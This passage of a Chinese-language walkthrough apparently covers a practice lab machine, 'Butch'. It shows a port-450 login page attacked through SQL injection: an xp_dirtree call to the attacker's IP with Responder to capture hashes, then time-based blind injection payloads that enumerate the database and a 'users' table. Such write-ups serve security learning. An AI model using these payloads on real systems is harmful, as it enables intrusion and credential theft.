 

## InitAccess

尝试了ftp匿名登录，SMB匿名访问无果。

### 450-Web

### SQL注入

访问 450 端口是个Web页面的登录口，没有账号密码，测试发现存在SQL注入。

![image-20240212162925258](resource/26-W-M-Butch.assets/image-20240212162925258.png)

```sh
exec master.dbo.xp_dirtree &#39;\\192.168.45.164\123&#39;;--
sudo responder -I tun0
```

失败，xp_cmdshell失败

只能老老实实的去注入了

```sql
# 枚举数据库名
admin&#39;if(len(db_name()))&gt;=0&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
admin&#39;if(substring(db_name(),1,1))&gt;=&#39;c&#39;&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
# 最终得到数据库名为butch

# 枚举表名
admin&#39;if((select&#43;count(name)&#43;from&#43;butch..sysobjects&#43;where&#43;xtype=&#39;u&#39;))&gt;=0&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--  # 有1张表
admin&#39;if((select&#43;len(name)&#43;from&#43;butch..sysobjects&#43;where&#43;xtype=&#39;u&#39;))&gt;=0&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--  # 表名长度为5
admin&#39;if((select&#43;substring(name,1,1)&#43;from&#43;butch..sysobjects&#43;where&#43;xtype=&#39;u&#39;))&gt;=&#39;u&#39;&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
# 得到表名为 users
```